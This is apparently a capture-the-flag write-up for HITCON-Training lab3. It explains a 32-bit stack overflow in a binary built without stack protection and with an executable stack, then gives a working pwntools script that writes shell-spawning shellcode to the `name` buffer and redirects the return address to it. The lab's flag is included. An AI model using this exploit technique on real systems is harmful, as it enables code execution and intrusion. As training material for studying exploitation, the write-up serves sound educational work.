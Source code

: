 # HITCON-Training lab3

## binary analysis

![](main.PNG)

> Makefile
```
ret2sc:ret2sc.c
	gcc -m32 -fno-stack-protector -z execstack ret2sc.c -o ret2sc
```

This is simple overflow problem.

This binary was compiled with `-z execstack` option and it doesn't have NX bit option.

So, write shellcode to `name` and change return address to `name` address.

![](name_address.PNG)

`name` address is `0x804A060`.

## solve

```python
from pwn import *

context.arch = "i386"
context.log_level = "DEBUG"

p = process("./ret2sc")

shellcode = asm(shellcraft.sh())
# "A"*24 ~ "A"*39
payload = "A"*32 + p32(0x804A060)

p.sendlineafter("Name:", shellcode)
p.sendlineafter("best:", payload)

p.interactive()
```

## flag

`CTF{debugger_1s_so_p0werful_1n_dyn4m1c_4n4lySis!}`